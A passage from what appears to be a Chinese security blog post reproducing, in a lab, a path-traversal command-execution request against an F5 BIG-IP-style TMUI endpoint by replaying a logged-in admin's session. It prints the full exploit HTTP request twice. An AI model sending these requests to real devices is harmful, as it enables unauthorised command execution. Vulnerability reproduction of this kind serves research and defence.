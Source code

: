 在未登录情况下会输出为null：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHwa7I99TlQM5TjKDaTkeqfhnibciavsicsWgMgkuzvfHf0SadLfvqqQUpA/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
  
之后模拟用户admin进行登陆  
：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHWQuG7ZjiaZcFFXdquUmFHeZlXGtiaGicVwo9nWMujtxqZmrcic3dP36zDA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHUDOGqhfnAlTqtXCPfWiaGiauBKpjB02AGCmxWld94ELaudJVUPnu6BNA/640?wx_fmt=png "")  
  
之后模拟攻击者重放之前的请求数据包(此时数据包中的会话信息不变)，第一次执行会出现以下错误提示信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHrhcVDkN1qRcrzHIrBicetrickz8tfXqib2xBGibm1osU23RqtenoJLB4IA/640?wx_fmt=png "")  
  
之后把之前的步骤重新走一遍即可，然后重新执行命令：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHQrJPa6W83gy9TwKdzuJTPvLzljaibV6LfbExgANLKvtohpicGIiaFebrg/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
  